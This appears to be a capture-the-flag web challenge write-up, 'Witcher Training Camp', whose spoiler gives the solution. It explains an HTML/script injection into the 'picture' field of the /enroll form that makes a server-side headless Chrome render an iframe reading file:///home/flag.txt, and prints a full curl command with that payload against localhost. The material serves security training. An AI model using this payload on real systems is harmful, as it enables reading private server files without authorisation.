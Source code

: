# Witcher Training Camp 
Category: web

**Author:** \_Roko'sBasilisk\_

## Description

Witcher Training Camp has launched a new website. Can you hack it and get the flag?

## Points
250

## Solution
<details>
 <summary>Reveal Spoiler</summary>

Inject javascript code to the `picture` parameter in POST request at `/enroll` endpoint. This is causes a refected XSS to be executed on a headless chrome on the server which can effectively be used to read files serverside using the iframe tag. Using this approach the participants should read the `flag.txt` file.

```bash
curl 'http://localhost:8080/enroll' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: http://localhost:8080' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' --data 'full_name=test&origin=test&specialty=test&picture=test.txt<iframe src="file:///home/flag.txt"></iframe>&consent=on' --compressed --output flag.pdf
```
</details>
